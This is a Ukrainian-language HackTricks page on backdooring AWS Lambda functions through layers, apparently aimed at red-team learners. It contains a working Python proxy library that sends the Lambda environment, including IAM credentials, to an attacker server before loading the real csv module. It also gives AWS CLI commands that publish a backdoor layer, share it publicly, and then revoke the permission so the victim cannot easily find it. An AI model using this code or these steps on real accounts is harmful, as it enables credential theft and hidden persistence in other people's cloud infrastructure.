 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Lambda layer - це архів .zip, який **може містити додатковий код** або інший контент. Шар може містити бібліотеки, [кастомний runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), дані або конфігураційні файли.

Можливо включити до **п'яти шарів на функцію**. Коли ви включаєте шар у функцію, **вміст витягується до каталогу `/opt`** в середовищі виконання.

За **замовчуванням** створені вами **шари** є **приватними** для вашого облікового запису AWS. Ви можете вибрати **поділитися** шаром з іншими обліковими записами або **зробити** шар **публічним**. Якщо ваші функції використовують шар, опублікований іншим обліковим записом, ваші функції можуть **продовжувати використовувати версію шару після його видалення або після відкликання вашого дозволу на доступ до шару**. Однак ви не можете створити нову функцію або оновити функції, використовуючи видалену версію шару.

Функції, розгорнуті як контейнерне зображення, не використовують шари. Замість цього ви упаковуєте свій улюблений runtime, бібліотеки та інші залежності в контейнерне зображення під час його створення.

### Python load path

Шлях завантаження, який Python буде використовувати в lambda, є наступним:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Перевірте, як **другу** та третю **позиції** займають каталоги, де **lambda layers** розпаковують свої файли: **`/opt/python/lib/python3.9/site-packages`** та **`/opt/python`**

{% hint style="danger" %}
Якщо зловмисник зміг **внедрити** використану **lambda layer** або **додати одну**, яка буде **виконувати довільний код, коли завантажується загальна бібліотека**, він зможе виконувати шкідливий код з кожним викликом lambda.
{% endhint %}

Отже, вимоги такі:

* **Перевірте бібліотеки**, які **завантажуються** кодом жертви
* Створіть **проксі-бібліотеку з lambda layers**, яка буде **виконувати користувацький код** та **завантажувати оригінальну** бібліотеку.

### Завантажені бібліотеки

{% hint style="warning" %}
Коли я зловживав цією технікою, я зіткнувся з труднощами: деякі бібліотеки **вже завантажені** в середовищі виконання python, коли ваш код виконується. Я очікував знайти такі речі, як `os` або `sys`, але **навіть бібліотека `json` була завантажена**.\
Щоб зловживати цією технікою збереження, код повинен **завантажити нову бібліотеку, яка не завантажена**, коли код виконується.
{% endhint %}

З таким python-кодом можна отримати **список бібліотек, які попередньо завантажені** в середовищі виконання python в lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
І це **список** (перевірте, що такі бібліотеки, як `os` або `json`, вже є)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
І це список **бібліотек**, які **lambda включає за замовчуванням**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Задня дверка в Lambda Layer

У цьому прикладі припустимо, що цільовий код імпортує **`csv`**. Ми будемо **додавати задню дверку до імпорту бібліотеки `csv`**.

Для цього ми створимо директорію csv з файлом **`__init__.py`** в ній у шляху, який завантажується lambda: **`/opt/python/lib/python3.9/site-packages`**\
Тоді, коли lambda буде виконана і спробує завантажити **csv**, наш **файл `__init__.py` буде завантажений і виконаний**.\
Цей файл повинен:

* Виконати наш payload
* Завантажити оригінальну бібліотеку csv

Ми можемо зробити обидва з:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Тоді створіть zip з цим кодом за шляхом **`python/lib/python3.9/site-packages/__init__.py`** і додайте його як шар lambda.

Ви можете знайти цей код за посиланням [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Інтегрований payload **надішле IAM креденціали на сервер ПЕРШИЙ РАЗ, коли його викликають, або ПІСЛЯ скидання контейнера lambda** (зміна коду або холодна lambda), але **інші техніки** такі як наступні також можуть бути інтегровані:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Зовнішні шари

Зверніть увагу, що можливо використовувати **шари lambda з зовнішніх облікових записів**. Більше того, lambda може використовувати шар з зовнішнього облікового запису, навіть якщо у нього немає дозволів.\
Також зверніть увагу, що **максимальна кількість шарів, які може мати lambda, становить 5**.

Отже, для покращення універсальності цієї техніки зловмисник може:

* Задній доступ до існуючого шару користувача (нічого не є зовнішнім)
* **Створити** **шар** у **своєму обліковому записі**, надати **обліковому запису жертви доступ** до використання шару, **налаштувати** **шар** у Lambda жертви та **видалити дозвіл**.
* **Lambda** все ще зможе **використовувати шар**, а **жертва не** матиме жодного простого способу **завантажити код шарів** (окрім отримання rev shell всередині lambda)
* Жертва **не побачить зовнішні шари**, використані з **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
